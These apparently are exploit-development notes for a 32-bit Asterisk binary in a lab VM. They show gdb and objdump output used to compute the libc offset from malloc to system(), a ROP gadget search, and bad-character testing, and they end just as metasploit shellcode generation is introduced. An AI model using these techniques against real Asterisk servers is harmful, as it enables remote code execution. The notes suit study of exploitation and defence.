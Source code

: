 addr of malloc in libc mapped in process:
```
(gdb) x/1x 0xb7438160
0xb7438160 <malloc>:	0x0ce85356
```


check offset in libc between malloc and system:
```
user@tinysploit2:~$ objdump -T /lib/libc-2.17.so | egrep "malloc|system"
[...]
00079160 g    DF .text	00000136  GLIBC_2.0   malloc
0003f1a0  w   DF .text	0000008d  GLIBC_2.0   system
```

```
dobin@minime:~/Desktop/sip$ printf "%x\n" $((0x00079160-0x0003f1a0))
39fc0
```

```
(gdb) x/1x 0xb7438160-0x39fc0
0xb73fe1a0 <system>:	0x891cec83
```

So, to get address of system:
- get address of malloc: `mov reg, [0x0815324c]`
- mov offset to system to a register: `mov reg2, 0x39fc0`
- add reg and reg2 to reg3, which has now the system() offset

### create system() shellcode

Finding an adequate `sub` gadget:

```
(asterisk/ELF/x86)> search /3/ sub e%, [%]
[INFO] Searching for gadgets: sub e%, [%]
[INFO] File: asterisk
0x080fb061: sub eax, 0x8402b60f; sal byte ptr [edi + esi + 0xf], 0xb6; adc edi, dword ptr [eax]; ret 0x5074;
0x080f3a21: sub ebx, dword ptr [eax - 5]; dec ecx; mov eax, 0xffffffff; ret;
0x080a8413: sub ecx, dword ptr [ecx - 0x762e763d]; ret 0xc031;
```

### testing

Oups, it is corrupted. Started to test for bad chars, and its spaces and others.



## Shellcode

Wanted to do shellcode. Used angrop. But it also contained bad chars.

### generate shellcode

Use metasploit to create shellcode, excluding bad chars:
